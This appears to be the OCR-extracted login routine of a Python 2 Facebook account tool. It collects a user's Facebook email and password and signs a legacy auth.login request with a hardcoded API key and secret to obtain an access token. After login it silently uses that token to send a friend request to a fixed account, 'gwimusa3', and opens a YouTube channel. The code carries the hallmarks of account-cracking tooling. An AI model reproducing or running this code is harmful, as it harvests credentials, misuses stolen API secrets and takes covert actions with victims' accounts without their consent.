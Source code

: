 def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		jalan(' [1;92mWarning: [1;97mDo Not Use Your Personal Account' )
		jalan(' [1;92m   Note: [1;97mUse a New Account To Login' )
		print "[1;95m♡──────────•◈•──────────♡[1;96mjahid.tex[1;95m♡──────────•◈•──────────♡"
		print('	   [1;94m♡\x1b[1;91m》》》》》》LOGIN WITH FACEBOOK《《《《《《\x1b[1;94m♡' )
		print('	' )
		id = raw_input('[1;96m[+] \x1b[1;92mID/Email\x1b[1;95m: \x1b[1;96m')
		pwd = raw_input('[1;96m[+] \x1b[1;93mPassword\x1b[1;96m: \x1b[1;96m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\x1b[1;96mThere is no internet connection"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\x1b[1;95mLogin Successful...'
				os.system('xdg-open https://m.youtube.com/channel/UCRrRgcJjsnNm5Bi5ZenRGnw')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\x1b[1;91mThere is no internet connection"
				keluar()
		if 'checkpoint' in url:
			print("\n\x1b[1;92mYour Account is on Checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\x1b[1;93mPassword/Email is wrong")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()


